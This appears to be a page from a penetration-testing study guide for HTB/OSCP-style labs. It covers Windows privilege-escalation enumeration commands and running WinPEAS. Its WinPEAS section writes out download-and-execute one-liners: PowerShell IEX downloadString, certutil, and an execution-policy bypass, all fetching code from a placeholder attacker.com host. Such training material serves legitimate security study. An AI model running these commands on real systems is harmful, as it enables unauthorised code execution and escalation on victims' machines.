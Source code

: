 ## Windows Privilege Escalation

### **Windows Privilege Escalation Methodology**

**What Windows privilege escalation involves:** Exploiting Windows-specific misconfigurations, services, registry settings, or vulnerabilities to escalate from limited user to Administrator or SYSTEM privileges.

**Why Windows privesc is essential:** Windows systems have complex privilege models with many potential escalation vectors. Understanding Windows security architecture is crucial for HTB/OSCP success.

```bash
# Initial Windows enumeration
whoami                                       # Current user
whoami /priv                                 # User privileges
whoami /groups                               # Group memberships
net user                                     # Local users
net localgroup                               # Local groups
net localgroup administrators                # Administrators group members

# System information
systeminfo                                   # Comprehensive system information
wmic qfe list                                # Installed patches/hotfixes
wmic product get name,version                # Installed software
wmic service list brief                      # Running services

# Network and process information
netstat -ano                                 # Network connections with PIDs
tasklist /svc                                # Processes with associated services
sc query                                     # Service status
net share                                    # Shared resources

# Why Windows enumeration differs from Linux:
# - Registry-based configuration vs file-based
# - Service-oriented architecture
# - Complex user and group management
# - Multiple privilege levels (User, Administrator, SYSTEM)
# - Windows-specific attack vectors (services, registry, tokens)
```

### **Automated Windows Enumeration Tools**

#### **WinPEAS - Windows Privilege Escalation Awesome Script**

**What WinPEAS does:** Comprehensive Windows privilege escalation enumeration tool that checks for hundreds of potential escalation vectors including service misconfigurations, registry issues, and vulnerable software.

```bash
# Download and execute WinPEAS
# Method 1: PowerShell download and execute
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://attacker.com/winPEAS.exe')"

# Method 2: Download via certutil (common in Windows)
certutil -urlcache -split -f http://attacker.com/winPEAS.exe winPEAS.exe
winPEAS.exe

# Method 3: PowerShell version (script-based)
powershell -ep bypass -c "IEX(New-Object Net.WebClient).downloadString('http://attacker.com/winPEAS.ps1')"

# WinPEAS execution options
winPEAS.exe cmd                              # Command line version
```